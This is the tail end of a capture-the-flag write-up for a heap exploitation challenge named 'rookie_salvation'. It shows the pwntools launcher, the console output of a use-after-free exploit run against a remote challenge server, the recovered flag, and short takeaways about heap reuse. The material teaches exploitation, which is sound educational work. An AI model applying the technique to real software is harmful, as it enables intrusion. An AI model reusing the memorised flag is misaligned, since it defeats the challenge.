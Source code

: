 ```python
if __name__ == '__main__':
    if args.REMOTE:
        target = remote('46.101.163.234', 31649)
    else:
        target = process('./rookie_salvation')
    
    exploit(target)
```

## Running the Exploit

```bash
$ python exploit_final.py REMOTE
[*] '/home/kali/Desktop/CTF/pwn_rookie_salvation/rookie_salvation'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to 46.101.163.234 on port 31649: Done
[*] Step 1: Freeing allocated_space chunk
[*] Step 2: Reallocating chunk with size 0x26 (38 bytes)
[*] Step 3: Writing payload with target string at offset 0x1e
[*] Step 4: Calling road_to_salvation to trigger flag
[+] Receiving all data: Done (148B)
[*] Closed connection to 46.101.163.234 port 31649
[+] Response:  [1;35m
    [[1;32mUnknown Voice[1;35m] ✨ 𝐅𝐢𝐧𝐚𝐥𝐥𝐲.. 𝐓𝐡𝐞 𝐰𝐚𝐲.. 𝐎𝐮𝐭..[1;35m[0mHHTB{h34p_2_h34v3n}
    
[+] FLAG: HTB{h34p_2_h34v3n}
```

## Flag

```
HTB{h34p_2_h34v3n}
```

## Key Takeaways

1. **Use-After-Free vulnerabilities** remain a critical class of heap exploitation bugs
2. **Heap memory reuse** can be predictable in certain scenarios, especially with small allocations
3. **Magic values** at specific offsets are common in CTF challenges to verify successful exploitation
4. The flag name **"h34p_2_h34v3n"** (heap to heaven) perfectly describes the exploitation technique

## References

